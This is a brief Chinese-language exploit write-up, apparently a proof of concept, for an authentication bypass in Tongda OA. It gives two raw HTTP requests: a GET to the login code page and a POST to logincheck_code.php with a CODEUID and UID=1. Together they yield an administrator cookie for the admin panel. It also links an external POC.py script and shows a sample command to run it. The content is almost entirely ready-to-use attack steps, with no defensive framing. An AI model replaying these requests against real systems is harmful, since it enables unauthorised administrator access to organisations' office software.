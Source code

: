 0x00 发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

0x01 发送第二个请求包


```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1


```

获取cookie后访问管理员页面 /general/index.php
------------

可以利用工具获取cookie
借助工具：https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py
python3 POC.py -v 2017 -url http://t33.33333333
